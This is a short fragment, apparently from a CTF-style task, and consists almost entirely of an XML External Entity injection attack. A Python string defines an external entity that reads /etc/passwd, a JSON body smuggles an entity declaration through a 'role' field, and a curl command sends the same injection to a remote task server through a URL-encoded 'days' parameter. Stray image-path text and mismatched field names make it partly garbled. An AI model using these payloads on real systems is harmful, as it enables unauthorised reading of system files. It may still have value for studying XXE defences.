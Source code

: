 _xml_string = """
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
                    <!ENTITY firstName "Max">
                    <!ENTITY lastName "<data>&file;</data>">
                    <!ENTITY days "xxx">
                    <!ENTITY file SYSTEM "file:///etc/passwd">
                    ]>
<userInfo>
	<fullRef>&firstName; &lastName;, &role; &file;</fullRef>
	<firstName>&firstName;</firstName>
	<lastName>&lastName;</lastName>
</userInfo>
"""


```json
{
	"role": "xxx\"><<!!ENTITY file SYSTEM \"file:///etc/passwd",
	"firstName": "Max",
	"lastName": "<data>&file;</data>"
}




curl --location 'tasks.mxkv.ru:22222?days=xxx%5C%22%3E%3C%3C!!ENTITY%20file%20SYSTEM%20%5C%22file%3A%2F%2F%2Fetc%2Fpasswd&firstName=Max&lastName=%3Cdata%3E%26file%3B%3C%2Fdata%3E' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'days=xxx"><!ENTITY file SYSTEM "file:///etc/passwd' \
--data-urlencode 'firstName=Max' \
--data-urlencode 'lastName=<data>&file;</data>'

